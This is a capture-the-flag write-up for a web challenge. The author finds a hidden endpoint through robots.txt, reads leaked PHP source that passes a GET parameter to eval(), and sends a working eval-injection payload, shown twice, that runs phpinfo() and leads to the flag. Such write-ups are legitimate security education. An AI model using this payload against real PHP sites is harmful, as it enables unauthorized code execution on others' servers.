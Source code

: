 I looked at the HTML code of the website, but I could not find anything. Then I tried to find some files that I might have access to. Apparently the file "robots.txt" was on the server (https://ch3.sbug.se/robots.txt) and could be read. Its content was the following:

```c
user-agent: *
disallow: /Source_Code_Backup
```

This led me to the endpoint "/Source_Code_Backup" which was an empty page. I examined the HTML code behind this page and was able to find some interesting things. I found the following as a comment:

```c
<!--
// Source Code Backup:
	$SBCTF=@(string)$_GET['SBCTF'];
	filter($boycott, $SBCTF);
	eval('$SBCTF="'.addslashes($SBCTF).'";');
-->
```

This code snippet actually ran on the server and showed me that the page does indeed accept "SBCTF" as a parameter. It also showed me that the code uses "eval", which can be easily exploited if not used correctly. Fortunately for me, this was the case.

After some research, I found this article (https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php) describing how to exploit the "eval" method to execute arbitrary code. To see if this really works, I made a POST request with this payload:

```c
https://ch3.sbug.se/?SBCTF=var_dump(${eval($_GET[1])}=123)&1=phpinfo();
````

This actually worked and showed me some server information. Next I searched the directories and discovered the flag.

```c
https://ch3.sbug.se/?SBCTF=var_dump(${eval($_GET[1])}=123)&1=phpinfo();
```

![](img3.png)

### Prove your participation in the CTF event with a screenshot of the scoreboard.

"Capture The Flag 2021":
![](img4.png)

Securebug's CTF:
![](img5.png)
